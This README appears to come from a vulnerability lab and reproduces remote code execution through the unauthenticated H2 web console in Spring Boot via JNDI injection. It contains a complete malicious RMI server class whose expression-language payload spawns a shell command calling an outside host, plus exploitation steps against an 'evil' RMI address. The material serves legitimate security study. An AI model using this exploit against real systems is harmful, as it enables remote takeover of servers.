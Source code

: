 # H2 Database Web Console Unauthorized Access

[中文版本（Chinese Version）](README.zh-cn.md)

H2 database is a embedded in-memory database in Java. Springboot with h2 database comes with a web management page which has no authentication if you set the following options:

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

This management page supports using JNDI to load the JDBC driver, which can lead to remote code execution via remote class loading.

References:

- <https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e>

## Setup

Start a spring-boot with h2 database and embedded tomcat:

```
docker-compose up -d
```

After started the container, the spring-boot is listening on `http://your-ip:8080`, the management page is `http://your-ip:8080/h2-console/` by default.

## Vulnerability Reproduce

Reference to *[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)*, we should use `org.apache.naming.factory.BeanFactory` and `javax.el.ELProcessor` to launch the external process after Java 8u191:

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServerNew {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

Simply use this tool *[JNDI](https://github.com/JosephTribbianni/JNDI)* to exploit the vulnerability. First, set up the target command to `touch /tmp/success` at `config.properties`:

![](3.png)

Then start the `JNDI-1.0-all.jar`, is will be listening on `0.0.0.0:23456`. fill in the form based on these pieces of information:

![](1.png)

`javax.naming.InitialContext` is the JNDI factory class name, URL `rmi://evil:23456/BypassByEL` is your evil RMI address.

Evil RMI server received the requests:

![](2.png)

`touch /tmp/success` has been execute successfully:

![](4.png)
